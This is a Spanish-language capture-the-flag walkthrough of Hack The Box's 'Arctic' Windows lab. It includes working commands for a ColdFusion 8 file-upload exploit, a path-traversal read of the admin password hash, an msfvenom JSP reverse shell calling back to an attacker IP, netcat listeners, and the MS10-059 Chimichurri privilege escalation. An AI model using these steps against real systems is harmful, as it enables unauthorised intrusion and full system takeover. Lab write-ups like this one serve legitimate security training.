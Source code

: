 ## HTB-Arctic
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.11

## Herramientas a utilizar:

- `nmap`
- `BurpSuite` 
    -  https://sniferl4bs.com/2014/01/burp-suite-i-primeros-pasos/
- `searchsploit`
- `curl`
- `rlwrap nc`
- https://crackstation.net/
- https://github.com/egre55/windows-kernel-exploits

##### NMAP

```
nmap -sC -sV -o scan_arctic.txt 10.10.10.11
```

>Aqui veremos que tenemos lo siguiente puertos abiertos.

|PORT|STATE|SERVICE|VERSION|
|-------|-------|-------|-------|
|135/tcp| open| msrpc| Microsoft Windows RPC
|8500/tcp| open| fmtp?|
|49154/tcp| open| msrpc| Microsoft Windows RPC

Iniciaremos nuestra enumeracion por el puerto 8500
```
http://10.10.10.11:8500
```
Buscando rapidamente encontraremos dos directorios
`CFIDE`
`cfdocs`

En `CFIDE` tenemos un site llamado adminisitrator el cual es un panel de inicio.
```
http://10.10.10.11:8500/CFIDE/administrator
```

>Vemos que el usuario ya esta marcado como admin, donde solo debemos probar el password.
intentamos con arctic y no tenemos ningun resultado. he aqui donde utilizaremos BurpSuite.

Abrimos `burdsuit` y nos vamos a la opcion `proxy > options`
aqui cambiamos `Proxy Listerners` de `127.0.0.1:8080` a `10.10.14.x<la ip de la vpn_htb>:8080`

Luego marcamos: 
`Intercept Client Requests > Intercept request`
`Intercept Server Response > Intercept responses`

>Listo, ahora nos toca ir firexfox y en los `add-on` instalamos `FoxProxy` <si no lo tenemos>
```
Clic FoxProxy
Add Proxy
Title : arctic
Proxy Type: http
Proxy IP: 10.10.14.x<la ip de la vpn_htb>
Port: 8080
Clic en save.
```

Volvemos a intentar acceder a arctic con la clave artic
```
http://10.10.10.11:8500/CFIDE/administrator
```
Ahora solo debemos ir a `burdsuit` y en `Proxy > http history` veremos lo siguiente

>cfadminPassword=F6F89337ECDE4A8A92EC34657B38485938F3BA79&requestedURL=%2FCFIDE%2Fadministrator%2Findex.cfm%3F&salt=1613170214614&submit=Login

###### Que es lo que esta pasando aqui:

>Mirando la fuente de la página, puedo ver dónde el elemento de formulario HTML define qué datos se envían 
cuando solicito el formulario de inicio de sesión, el servidor genera un salt y lo envía en la página. 
Luego, cuando envío, toma esa sal y usa Javascript para el hash SHA1 y luego HMAC SHA1 hash el resultado, y lo envía. 

Buscaremos algun exploit existente para coldfunsion
```
searchsploit coldfusion
```
De todo el listado que aparece utilizaremos:
 - ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)

Traeremos el exploit `16788.rb`
```
searchsploit -m cfm/webapps/16788.rb
```

>Este es un exploit relativamente simple: 
Realiza dos solicitudes HTTP. 
Primero es una `POST` a `FCKEDITOR_DIR`, que tiene un valor predeterminado de `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm definido anteriormente en el script` 
Luego hace un `GET` a `/userfiles/file/` para activar la carga útil. 

Crearemos nuestra reverse shell.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f raw > rs.jsp
```
Subieromos nuestra reverse shell utilizando el exploit:
```
curl -X POST -F "newfile=@rs.jsp;type=application/x-java-archive;filename=rs.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/r0ok1e.jsp%00'
```

Verificamos que el archivo r0ok1e.jsp se encuentre en
```
http://10.10.10.11:8500/
```
Veremos que exite un nuevo directorio llamado ``{userfiles/file/}`` y dentro de este tendremos nuestro reverse shell `r0ok1e.jsp`.

El siguiente paso es ponernos en escucha por el puerto 443
```
rlwrap nc -lvnp 443
```

Luego hacer el llamado:
```
curl 'http://10.10.10.11:8500/userfiles/file/r0ok1e.jsp'
```

Listo ya deberiamos tener nuestra shell.
>*C:\ColdFusion8\runtime\bin>* **whoami**
`arctic\tolis`

Vamos por nuestra primera flag en:
```
cd C:\Users\tolis\Desktop
type user.txt
```

### Otro metodo para conseguir acceso es:

>Al examinar la secuencia de comandos de Python del exploit. este emitiendo un `GET` a `http://server/CFIDE/administrator/enter.cfm` con un parámetro de configuración regional que vuelve a subir varios directorios a algún archivo y luego termina con `% 00en`. 
Es probable que el sitio se asegure de que la configuración regional termine con una cadena razonable, y el exploit use el byte nulo para pasar esa verificación y así obtener el archivo. por esta razon ejecutaremos lo siguiente para extraer el hash del usuario.
```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en: 
```

Veremos el siguiente hash
**2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03**

El cual iremos a la web: `https://crackstation.net/` para crackeralo
|HASH|TYPE|RESULT|
|----|----|----|
|2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03| sha1 | happyday |


Listo ahora tenemos el password del admin para iniciar session via web.
```
10.10.10.11:8500/CFIDE/administrator/
```

Antes debemos levantar un WebServer para subir nuestro Shell.
```
python3 -m http.server 80
```

Ahora iniciamos session:
```
http://10.10.10.11:8500/CFIDE/administrator
user:admin
pass:happyday
```

Una vez iniciada la session iremos a `Debugging & Logging > Scheduled Tasks`
Creamos un nuevo Task donde solo completaremos lo siguiente:
```
TASK NAME: r0ok1e
URL: http://10.10.14.17/rs.jsp
PUBLISH: marcamos save output to file
FILE: C:\ColdFusion8\wwwroot\CFIDE\r0ok1e.jsp
SUMMIT
```
>Listo ya tenemos nuestra tarea creada, hacemos clic en ejecutar y veremos como carga nuestro `rs.jsp`.

Ahora para verificar debemos ir a:
```
http://10.10.10.11:8500/CFIDE/
```
Aqui veremos nuestra reverse shell rs.jsp nos ponemos en eschuca por el puerto 443
```
rlwrap nc -nlvp 443
```

>Volvemos al navegador y hacemos clic en `r0ok1e.jsp` y listo tenemos nuestra reserse shell con la cual volvemos a tener acceso a la arctic para optener la primera flag.

#### Continuamos con la enumeracion para conseguir root.

Ejecutamos desde `c:\systeminfo`

>Vemos que *no tiene ningun parche aplicado*, por lo que buscaremos alguna vulnerabilidad que pueda tener.
Encontramos que es vulnerable a `MS10-059` tambien un exploit para dicha vulnerabilidad

**Descargaremos el exploit**
```
git clone https://github.com/egre55/windows-kernel-exploits
```
```
cd windows-kernel-exploit
mv 'MS10-059: Chimichurri/Compiled/Chimichurri.exe' ../
```

Vamos a subir el archivo `chimichurri.exe` a `arctic`
```
impacket-smbserver share ./
```

Volvemos a arctic y desde la siguiente ruta ejecutaremos lo siguiente:
```
cd C:\ProgramData
net use \\10.10.14.17\share
copy \\10.10.14.47\share\Chimichurri.exe .
```

Volvemos a ponerno en escucha por el puerto 443
```
rlwrap nc -nlvp 443
```

Ahora ejecutamos el chimichurri.exe
```
.\Chimichurri.exe 10.10.14.17 443
```

y en unos 30 seg. debemos tener shell con el cual solo habra que hacer:
```
type C:\Users\Administrator\Desktop\root.txt
```

